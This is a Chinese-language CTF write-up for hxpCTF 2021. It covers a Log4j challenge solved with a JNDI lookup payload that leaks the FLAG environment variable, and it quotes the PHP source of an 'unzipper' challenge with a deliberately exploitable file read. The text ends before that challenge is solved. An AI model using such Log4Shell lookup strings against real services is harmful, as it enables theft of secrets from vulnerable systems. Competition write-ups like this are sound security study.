 ```yaml
---
title: "hxpCTF2021 Wp"
slug: "hxpctf2021-wp"
description: "纯菜狗，纯复现流做题，别骂了别骂了"
date: 2021-12-20T23:45:08+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


https://2021.ctf.link/internal/challenges

## Log 4 sanity check

> [ALARM ALARM](https://www.bsi.bund.de/SharedDocs/Cybersicherheitswarnungen/DE/2021/2021-549032-10F2.pdf?__blob=publicationFile&v=6)
>
> nc 65.108.176.77 1337

看到log4j的第一反应是拿JNDI那个工具直接梭，但是发现弹不出来shell（不管是bash nc还是curl wget这些 尝试了发现都不行），但是显然需要一个rce或者是文件读取的点，再仔细看dockerfile发现flag已经被读到环境变量中了

![image-20211220003006386](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211220003006386.png)

唔，所以直接读一下本地环境变量中的flag

```
${jndi:ldap://127.0.0.1/${env:FLAG}}
```

![image-20211220002554929](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211220002554929.png)

`hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}`

## unzipper

> Here, let me unzip that for you.
>
> http://65.108.176.76:8200/

index.php

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
```